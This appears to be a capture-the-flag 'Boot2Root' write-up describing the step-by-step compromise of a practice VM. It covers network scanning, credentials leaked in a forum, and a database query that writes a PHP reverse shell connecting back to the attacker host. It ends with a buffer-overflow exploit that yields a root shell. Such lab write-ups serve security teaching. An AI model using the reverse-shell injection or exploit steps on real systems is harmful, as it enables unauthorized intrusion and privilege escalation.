 # Boot2Root WriteUp 1
## Step 1
We dont have any ip addres and any user to connect to. We need to find the local ip of the VM:
    
    $> ip addr show
        ...
        vboxnet0 ...
        inet 192.168.56.1/24 ...
        ....
We now have the addres ip of the Virtual Box network interface.

We will use nmap to scan the range of ip and find some machine on it:

    $> nmap 192.168.56.1/24
        ...
        192.168.56.101
        ...

There it is we have our ip address: `192.168.56.101` !
## Step 2
Now that we have the ip address of our VM we can scan it using dirb inside a kali container:

    $> docker run -it kalilinux/kali-rolling:latest
    $> apt update && apt install -y dirb
    $> dirp https://192.156.56.101
    ...
    https://192.156.56.101/forum
    https://192.156.56.101/phpmyadmin
    https://192.156.56.101/webmail
    ...
Great we have 3 places to analyze !

`/phpmyadmin` and `/webmail` require an username and a password so we start with `/forum`

## Step 3
3 out of 4 articles are useless by the one named `Probleme Login ?` by `lmezard` contains information.
We see in the log that right before `lmezard` connection the log output:

    !q]Ej?5K5cyAJ username incorect

We assume `lmezard` is `stupid` and tried to connect with his password as his username.
Indeed we can login in the forum with this information:

    username: lmezard
    password: !q\]Ej?*5K5cy*AJ

## Step 4

In the forum profile of `lmezard` we get an email.

Lets try to connect through `/webmail` with :
    
    email: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

Gotem ! We have acces to his mails.

The only relevent mail here is `access db` which contains a password for the `root` user of the database.

    username: root
    password: Fg-'kKXBj87E:aJ$

## Step 5

We use the the previous password to access the database with a root access.

Thanks to this root access, inserting some php file is now easy.
Lets create a `temp` database and run this querry on it:

    SQL>SELECT "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4243 0>&1'"); ?>" into outfile "/var/www/forum/templates_c/reverse.php"

We then run this command on the host machine:

    $> nc -nvlp 4243

Its then needed to load this url on the browser `${VM_IP}/forum/templates_c/reverse.php`.

We now have a shell as user `www-data`


## Step 6

When looking around, we find this file

    $> /home/LOOKATME/password

This file provide all the required information to connect to lmezard in the VM (not through ssh)

    uesrname: lmezard
    password: G!@M6f4Eatau{sF"

## Step 7

We find a README that say that the result password shall be hash with sha256 to access `zaz` user and a zip archive on the `lmezard`'s home.

Inside there is a lot of pcap file with some C code in it and a file number information.
We use a python script called `pcap.py` to concatenate all the file and run the C program.

    $> python pcap.py
    $> gcc out.c
    $> ./a.out
        ...
        password: Iheartpwnage
        Now SHA-256 it and submit
        ...

so the result is :

    username: zaz
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## Step 8

There is a `bomb` that will explore !

We need to reverse engineering the bin `bomb` to defuse it and acces the next users.

- Phase 1: Public speaking is very easy.
 
- Phase 2: 1 2 6 24 120 720

- Phase 3: 1 b 214

- Phase 4: 9 austinpowers

- Phase 5: opekmq

- Phase 6: 4 2 6 3 1 5

There is a secret phase with we use specific answers.

- Phase Secret: 1001

We follow the README instruction and concatenate every answers without space

    username: thor
    password: Publicspeakingisveryeasy.126241207201b2149opekmq426135

## Step 9

There is a `turtle` file with some movement instructions.

We use a python script called `draw.py` to print the movements of the `turtle`.

![](image-1.png)

The word `SLASH` is hidded in this picture.

We MD5 `SLASH` thanks to the hint at the hend of turtle file that say : Can you `digest` the `message` ? MD5 stand for Message Digest 5.

    username: zaz
    password: 646da671ca01bb5d84dbb5fb2238dc8e

## Step 10

There is a bin called `exploit_me` that is own by the `root` user but `zaz` can execute it.
When reverse engineering we see that the program is vulnerable to a buffer overflow:

![](image-2.png)

The size writen inside buf is controled by the user and not by the program.
We use `payload.py` to generate a payload that will change the return addres of strcpy by our shellcode.

Our shellcode will jump to the function `system` with the addres of the string `"/bin/sh"`. This will effectively give us a root shell access.

    $> python payload.py
    $> ./exploit_me $(cat payload)
    $> whoami
        root
    $> id -u
        0

## Step 11

Done !
